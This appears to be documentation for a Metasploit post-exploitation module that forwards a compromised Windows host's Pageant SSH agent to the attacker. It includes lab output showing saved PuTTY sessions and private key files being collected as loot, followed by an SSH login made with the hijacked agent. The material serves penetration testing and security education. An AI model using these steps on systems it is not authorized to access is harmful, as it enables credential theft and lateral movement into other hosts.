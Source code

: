 ## Vulnerable Application

This module forwards SSH agent requests from a local socket to a remote Pageant instance.
If a target Windows machine is compromised and is running Pageant, this will allow the
attacker to run normal OpenSSH commands (e.g. ssh-add -l) against the Pageant host which are
tunneled through the meterpreter session. This could therefore be used to authenticate
with a remote host using a private key which is loaded into a remote user's Pageant instance,
without ever having knowledge of the private key itself.

Note that this requires the PageantJacker meterpreter extension, but this will be automatically
loaded into the remote meterpreter session by this module if it is not already loaded.

## Verification Steps

1. Start msfconsole
2. Get a Meterpreter session
3. Do: `use post/windows/manage/forward_pageant`
4. Do: `set SESSION <session id>`
5. Do: `run`

## Options

### SocketPath

Specify a filename for the local UNIX socket. (default path is random)

## Scenarios

### Pageant 0.77.0.0 on Windows 7 SP1 (x64)

Use `windows/gather/enum_putty_saved_sessions` to detect Pageant and known hosts:

```
msf > use post/windows/gather/enum_putty_saved_sessions
msf post(windows/gather/enum_putty_saved_sessions) > set session 1
session => 1
msf post(windows/gather/enum_putty_saved_sessions) > run

[*] Looking for saved PuTTY sessions
[*] Found 3 sessions

PuTTY Saved Sessions
====================

 Name             HostName         UserName  PublicKeyFile                       PortNumber  PortForwardings  ProxyUsername  ProxyPassword
 ----             --------         --------  -------------                       ----------  ---------------  -------------  -------------
 192.168.200.158  192.168.200.158            C:\Users\user\Desktop\ubuntu22.ppk  22
 example.com      example.com                C:\Users\user\Desktop\serial1.ppk   22
 serial1                                     C:\Users\user\Desktop\serial1.ppk   0

[+] PuTTY saved sessions list saved to /root/.msf4/loot/20220807223341_default_192.168.200.190_putty.sessions.c_273976.txt in CSV format & available in notes (use 'notes -t putty.savedsession' to view).
[*] Downloading private keys...
[+] PuTTY private key file for '192.168.200.158' (C:\Users\user\Desktop\ubuntu22.ppk) saved to: /root/.msf4/loot/20220807223341_default_192.168.200.190_putty.ppk.file_988729.bin
[+] PuTTY private key file for 'example.com' (C:\Users\user\Desktop\serial1.ppk) saved to: /root/.msf4/loot/20220807223342_default_192.168.200.190_putty.ppk.file_341943.bin
[+] PuTTY private key file for 'serial1' (C:\Users\user\Desktop\serial1.ppk) saved to: /root/.msf4/loot/20220807223342_default_192.168.200.190_putty.ppk.file_265111.bin


PuTTY Private Keys
==================

 Name             HostName         UserName  PublicKeyFile                       Type  Cipher  Comment
 ----             --------         --------  -------------                       ----  ------  -------
 192.168.200.158  192.168.200.158            C:\Users\user\Desktop\ubuntu22.ppk
 example.com      example.com                C:\Users\user\Desktop\serial1.ppk
 serial1                                     C:\Users\user\Desktop\serial1.ppk


[*] Looking for previously stored SSH host key fingerprints
[*] Found 1 stored key fingerprint
[*] Downloading stored key fingerprints...

Stored SSH host key fingerprints
================================

 SSH Endpoint        Key Type(s)
 ------------        -----------
 192.168.200.158:22  ssh-ed25519

[+] PuTTY stored host keys list saved to /root/.msf4/loot/20220807223342_default_192.168.200.190_putty.storedfing_027625.txt in CSV format & available in notes (use 'notes -t putty.storedfingerprint' to view).

[*] Looking for Pageant...
[+] Pageant is running (Handle 0x330820)
[*] Post module execution completed

```

Establish a local forward with `post/windows/manage/forward_pageant`:

```
msf > use post/windows/manage/forward_pageant 
msf post(windows/manage/forward_pageant) > set session 1
session => 1
msf post(windows/manage/forward_pageant) > run

[*] Launched listening socket on /tmp/bVN4Dg2W
[*] Set SSH_AUTH_SOCK variable to /tmp/bVN4Dg2W (e.g. export SSH_AUTH_SOCK="/tmp/bVN4Dg2W")
[*] Now use any SSH tool normally (e.g. ssh-add)
```

Specify the `SSH_AUTH_SOCK` UNIX socket path when using ssh tools:

```
$ SSH_AUTH_SOCK="/tmp/bVN4Dg2W" ssh-add -l
3072 SHA256:/M07p51CmCSMrV1lbFs19OMvyRw6g9Wxbq8bW5px0KA asdf@ubuntu-22-04-amd64 (RSA)

$ SSH_AUTH_SOCK="/tmp/bVN4Dg2W" ssh asdf@192.168.200.158
Welcome to Ubuntu 22.04 LTS (GNU/Linux 5.15.0-25-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

209 updates can be applied immediately.
29 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

*** System restart required ***
Last login: Sun Aug  7 22:19:04 2022 from 192.168.200.130
asdf@ubuntu-22-04-amd64:~$ 
```
